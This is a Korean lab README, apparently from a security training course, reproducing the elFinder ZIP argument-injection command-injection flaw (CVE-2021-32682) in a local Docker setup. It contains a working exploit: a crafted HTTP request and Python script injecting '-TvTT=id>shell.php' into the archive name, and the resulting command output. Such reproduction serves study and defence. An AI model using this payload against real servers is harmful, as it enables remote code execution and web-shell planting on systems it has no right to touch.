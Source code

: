 # elFinder ZIP 인자 주입 취약점으로 인한 Command Injection (CVE-2021-32682)

> 화이트햇 스쿨 3기 (35반) - [함주혁 (@shinyColumn)](https://github.com/shinyColumn)

* elFinder는 jQuery UI 기반의 웹 오픈소스 파일 관리자입니다.
* elFinder 2.1.48 이하 버전에서 ZIP 아카이브 처리 과정 중 인자 주입 취약점이 발견되었습니다.
* 공격자는 최소한의 구성으로도 elFinder PHP Connector를 호스팅하는 서버에서 임의의 명령을 실행할 수 있습니다.

<br/>

### 환경 구성 및 실행

1. 다음 명령어로 elFinder 2.1.48을 실행합니다.

```
docker compose up -d
```

2. 서버 시작 후 elFinder의 메인 페이지를 `http://127.0.0.1:8080`에서 확인할 수 있습니다.

<br/>

### 취약점 재현

취약점 재현을 위하여 먼저 두 개의 파일을 만들어야 합니다.
`1.txt` 파일을 생성합니다.

![image](./1.png)

해당 파일을 ZIP 포멧으로 압축한 후, 파일 이름을 `2.zip`으로 변경합니다.

![image](./2.png)

`1.txt`와 `2.zip`을 확인합니다.

![image](./3.png)

다음 HTTP request를 전송합니다.

```
GET /php/connector.minimal.php?cmd=archive&name=-TvTT=id>shell.php%20%23%20a.zip&target=l1_Lw&targets%5B1%5D=l1_Mi56aXA&targets%5B0%5D=l1_MS50eHQ&type=application%2Fzip HTTP/1.1
Host: your-ip
Accept: application/json, text/javascript, */*; q=0.01
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
X-Requested-With: XMLHttpRequest
Referer: http://localhost.lan:8080/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Connection: close
```

다음과 같은 python 코드를 통해 request를 전송할 수 있습니다.

```python
import requests

url = "http://127.0.0.1:8080/#elf_l1_Lw/php/connector.minimal.php"

params = {
    "cmd": "archive",
    "name": "-TvTT=id>shell.php # a.zip",  
    "target": "l1_Lw",
    "targets[0]": "l1_MS50eHQ",  
    "targets[1]": "l1_Mi56aXA",  
    "type": "application/zip"
}

headers = {
    "Host": "127.0.0.1:8080",
    "Accept": "application/json, text/javascript, */*; q=0.01",
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64)",
    "X-Requested-With": "XMLHttpRequest",
    "Referer": "http://localhost.lan:8080/",
    "Accept-Encoding": "gzip, deflate",
    "Accept-Language": "en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7",
    "Connection": "close"
}

response = requests.get(url, params=params, headers=headers)
print(response.text)
```

해당 request에는 다음과 같은 정보가 포함되어 있습니다.

* `id>shell.php`로 명령어 실행 및 출력 저장.
* base64 디코딩 시 `target[0]`의 값 `MS50eHQ`는 `1.txt`, `target[1]`의 값 `Mi56aXA`는 `2.zip`.

request 전송 이후 `http://127.0.0.1:8080/#elf_l1_Lw/files/shell.php`를 입력하여 `shell.php`를 확인합니다.

![image](./4.png)

`shell.php`를 열어 명령어가 실행된 결과를 확인합니다.

```
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
